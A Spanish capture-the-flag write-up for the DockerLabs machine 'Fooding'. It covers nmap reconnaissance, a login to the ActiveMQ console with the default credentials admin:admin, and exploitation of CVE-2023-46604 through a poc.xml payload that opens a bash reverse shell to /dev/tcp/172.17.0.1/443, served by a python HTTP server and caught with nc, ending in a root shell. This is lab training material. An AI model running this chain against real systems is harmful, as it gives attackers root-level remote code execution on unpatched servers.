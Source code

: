 # Máquina Fooding
Enlace a la máquina -> [Dockerlabs](https://mega.nz/file/0SlG3S7Z#bF91meiTF3k8A9RGhvnqdS-Irm-GnDLYGpUQk1S9_lQ)

- **Nombre de la Máquina:** Fooding
- **Sistema Operativo**: Linux
- **Dificultad:** Medium
- **Plataforma:** DockerLabs
- **Dirección IP:** 172.17.0.2
- **Vulnerabilidades Explotadas:**
	- ActiveMQ 5.15.25 exploit

### Reconocimiento
Comenzamos realizando un escaneo general con nmap sobre la IP de la máquina víctima para ver que puertos tiene abiertos.
```bash
sudo nmap -n -Pn -sS -p- --min-rate 5000  172.17.0.2 -oN escaneo.txt
PORT      STATE SERVICE     REASON
80/tcp    open  http        syn-ack
443/tcp   open  https       syn-ack
1883/tcp  open  mqtt        syn-ack
5672/tcp  open  amqp        syn-ack
8161/tcp  open  patrol-snmp syn-ack
41031/tcp open  unknown     syn-ack
61613/tcp open  unknown     syn-ack
61614/tcp open  unknown     syn-ack
61616/tcp open  unknown     syn-ack
```

Lanzamos un conjunto de scripts predeterminado con nmap para que nos reporte más información sobre los servicios.
```bash
sudo nmap -sCV -p80,443,1883,5672,8161,41031,61613,61614,61616 172.17.0.2 -oN targeted.txt
________________________________________________
PORT      STATE SERVICE    VERSION
80/tcp    open  http       Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Apache2 Debian Default Page: It works
443/tcp   open  ssl/http   Apache httpd 2.4.59 ((Debian))
|_http-title: DockerLabs | Plantilla gratuita Bootstrap 4.3.x
|_http-server-header: Apache/2.4.59 (Debian)
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/Consumer/Topic/#: 
|_    ActiveMQ/Advisory/MasterBroker: 
5672/tcp  open  amqp?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
8161/tcp  open  http       Jetty 9.4.39.v20210325
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Error 401 Unauthorized
41031/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
61614/tcp open  http       Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
|_  Potentially risky methods: TRACE
61616/tcp open  apachemq   ActiveMQ OpenWire transport
| fingerprint-strings: 
|   NULL: 
|_    5.15.15
```

Entramos a la web del puerto 80 y a la del puerto 443 a inspeccionarlas, no encontramos nada interesante. También hemos aplicado Fuzzing sobre ellas pero no he logrado encontrar nada interesante.

Le echamos un vistazo a la web que corre por el puerto 8161
```bash
http://172.17.0.2:8161/index.html
```

Nos pide autenticación, probamos credenciales comunes como pueden ser:

    root:root
    guest:guest
    admin:admin

Logramos acceder con las credenciales admin:admin

En la web encontramos un directorio /admin en uno de los links. Observamos el panel de ActiveMQ, servicio el cual corre por el puerto 61616, como podemos ver en el reporte de nmap.
![Pasted image 20240707131751](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/b81ba295-d605-4ec7-9f3e-aa5872c21f49)


### Explotación
Tras buscar en internet, encontramos un [exploit](https://github.com/evkl1d/CVE-2023-46604) para la versión 5.15.15 -> En el exploit tenemos que editar el archivo poc.xml para ejecutar el comando que queremos, en este caso la reverse shell.
```xml
<value>bash</value>
<value>-c</value>
<value>bash -i &gt;&amp; /dev/tcp/172.17.0.1/443 0&gt;&amp;1</value>
```

Este recurso lo compartiremos por el puerto 80 con python:
```bash
sudo python3 -m http.server 80
```

Abriremos el puerto 443 para recibir la reverse shell:
```bash
sudo nc -nlvp 443
```

Ejecutaremos el script, que tomará el poc.xml de nuestro servidor de python. Cabe recalcar que no indicamos el puerto ya que el script usa el puerto por defecto de ActiveMQ que es el 61616.
```bash
python3 CVE-2023-46604-RCE.py -i 172.17.0.2 -u http://172.17.0.1/poc.xml
```

Estamos dentro.
```bash
whoami
----------------
root
```
Y como el usuario que corre el servicio que hemos explotado es root, tenemos los privilegios máximos en el sistema.
